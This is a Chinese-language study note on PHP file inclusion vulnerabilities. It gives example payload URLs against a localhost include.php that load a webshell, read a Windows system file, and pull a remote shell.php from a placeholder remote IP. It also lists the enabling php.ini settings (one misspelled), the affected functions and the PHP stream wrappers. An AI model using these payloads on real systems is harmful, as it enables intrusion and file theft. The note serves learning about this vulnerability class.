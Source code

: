 # 文件包含漏洞

# 文件包含漏洞

## 本地文件包含

```
http://localhost/fileinc/include.php?file=webshell.php
```

```
http://localhost/fileinc/include.php?file=C:\Windows\system.ini
```

​	

## 远程文件包含

```
http://localhost/fileinc/include.php?file=http://远程IP/shell.php
```

php.ini前提配置:

- `allow_url_fopen = on` //默认打开 
- `sllow_url_include=on` //这个是比较危险的选项，默认关闭

​	

## 相关函数

- [include()](https://www.php.net/manual/zh/function.
  include.php)
- [include_once()](https://www.php.net/manual/zh/function.
  include-once.php)
- [require()](https://www.php.net/manual/zh/function.
  require.php)
- [require_once()](https://www.php.net/manual/zh/function.
  require-once.php)
- [fopen()](https://www.php.net/manual/zh/function.
  fopen.php)
- [readfile()](https://www.php.net/manual/zh/function.
  readfile.php)
- [highlight_file()](https://www.php.net/manual/zh/function.
  highlight-file.php)
- [show_source()](https://www.php.net/manual/zh/function.
  show-source.php)
- [file_get_contents()](https://www.php.net/manual/zh/function.
  file-get-contents.php)
- [file()](https://www.php.net/manual/zh/function.
  file.php)

​	

## 伪协议

- `file://`——访问本地文件系统

- `http://`——访问 HTTP(s) 网址

- `ftp://`——访问 FTP(s) URLs

- `php://`——访问各个输入/输出流(I/O streams)

- `zlib://`——压缩流

- `data://`——数据(RFC 2379)

- `glob://`——查找匹配的文件路径模式

- `phar://`——PHP 归档

- `ssh2://`——Secure Shell 2

- `rar://`——RAR

- `og://`——音频流

- `expect://`——处理交互式的流

  
